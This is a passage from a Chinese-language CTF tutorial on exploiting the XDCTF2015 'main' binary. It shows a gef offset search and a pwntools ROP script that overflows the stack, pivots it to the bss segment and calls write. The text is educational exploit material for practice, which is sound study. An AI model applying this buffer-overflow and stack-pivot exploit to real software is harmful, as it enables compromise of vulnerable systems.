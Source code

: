 ```shell
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 
[!] Syntax
pattern search PATTERN [SIZE]
gef➤  pattern search 0x62616164
[+] Searching '0x62616164'
[+] Found at offset 112 (little-endian search) likely
```

#### stage 1

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"
rop.write(1, base_stage + 80, len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

